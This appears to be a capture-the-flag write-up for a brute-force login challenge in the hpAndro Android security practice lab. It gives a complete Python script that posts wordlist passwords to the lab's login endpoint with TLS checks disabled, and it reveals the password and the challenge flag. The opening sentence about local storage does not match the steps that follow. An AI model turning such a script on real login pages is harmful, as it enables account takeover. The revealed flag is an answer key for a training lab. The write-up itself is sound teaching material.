 The task provided a web view of a webpage within the app, with obvious hints indicating that the solution involves investigating the local storage of the website.

## Step 1: Intercepting the Webpage Link

To access the webpage in a browser, I used HTTP Toolkit to capture the network traffic from the app and locate the webpage link. This led me to the following URL:

**URL: http://hpandro.raviramesh.info/bf.php**

![image](1.pngs)

## Step 2: Writing the bruteforce script

```
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

url = "https://hpandro.raviramesh.info/web/password-bruteforce.android"
username = "admin"
wordlist_path = "wordlist.txt"

headers = {
    "Host": "hpandro.raviramesh.info",
    "Cookie": "_gid=GA1.2.1420009170.1730369303; _ga_M1DY5F8QNF=GS1.1.1730465114.8.0.1730465114.60.0.0; _ga=GA1.2.231762434.1730369303; PHPSESSID=5s8evrmc4nhc6uvucu4bqdicvo",
    "Pragma": "no-cache",
    "Cache-Control": "no-cache",
    "Sec-Ch-Ua": '"Chromium";v="124", "Android WebView";v="124", "Not-A.Brand";v="99"',
    "Sec-Ch-Ua-Mobile": "?1",
    "Sec-Ch-Ua-Platform": "Android",
    "Upgrade-Insecure-Requests": "1",
    "Origin": "https://hpandro.raviramesh.info",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "hpandro.android.security",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "X-Requested-With": "hpandro.android.security",
    "Sec-Fetch-Site": "same-origin",
    "Sec-Fetch-Mode": "navigate",
    "Sec-Fetch-User": "?1",
    "Sec-Fetch-Dest": "document",
    "Referer": "https://hpandro.raviramesh.info/web/password-bruteforce.android",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "en-US,en;q=0.9",
    "Priority": "u=0, i",
    "Connection": "keep-alive",
}

def attempt_password(password):
    data = {
        "name": username,
        "password": password.strip(),
    }
    
    try:
        response = requests.post(url, headers=headers, data=data, verify=False)
        if response.status_code == 200:
            print(f"Attempt with password '{password.strip()}' returned status code {response.status_code}.")
            if "Try" not in response.text:
                print("Request Sent: ", data)
                print("Response Recieved: \n", response.text)
                return True
    except requests.exceptions.RequestException as e:
        print(f"Error sending request with password '{password}': {e}")
    return False

def bruteforce_passwords():
    with open(wordlist_path, "r") as file:
        for password in file:
            if attempt_password(password):
                break

if __name__ == "__main__":
    bruteforce_passwords()
```

On running this script for a while, we get the username as **"admin"** and password as **"hacker"**.

![image](2.png)

## Flag
The flag is given when you give the right username and password:

**Flag - hpandro{Brute.zf7zoSEUxvXQVfkCOolSx1gtRCAApNwE} **

